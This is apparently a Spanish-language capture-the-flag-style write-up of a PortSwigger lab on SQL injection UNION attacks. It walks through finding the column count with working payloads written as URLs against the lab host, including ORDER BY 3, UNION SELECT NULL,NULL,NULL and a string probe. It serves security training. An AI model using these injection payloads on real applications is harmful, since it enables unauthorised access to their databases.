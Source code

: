 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/419b752f-d2a3-4e30-9772-cb9c1bfd548a)

Aunque en este caso no se ven los números en la pantalla, en realidad si pasa el laboratorio, esto debido al `NULL` y podemos saber que tenemos 3 columnas (eso pedía el lab después de todo)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/1c622ff2-4f1a-4e56-b3ff-42ab65c4887e)

Super ojito! También se pueden ingresar comandos ALV

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/d4b6d7e9-95c3-4132-bb31-5a806ce9f877)

A eso se le llama SQLi RC

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/64a6367d-2cf8-4a45-9a75-eae6cf429776)

## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)

Para Fuzzear lso numeros se debe poner algún string o algo entre cada NULL, en este caso el segundo NULL es el vulnerable

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,'Fz3r0',NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/db8636b9-9c7d-4710-beeb-fd430198cf84)

Ahora si puedo inyectar querys visibles en ese campo

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/64c795c2-687a-423e-b58e-5f69cca10a2d)







Es prácticamente el ejercicio anterior, pero en el anterior puse Fz3r0 y ahora piden un string en paricular:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/183aaf72-8873-40bb-bc09-07ea29316f6c)
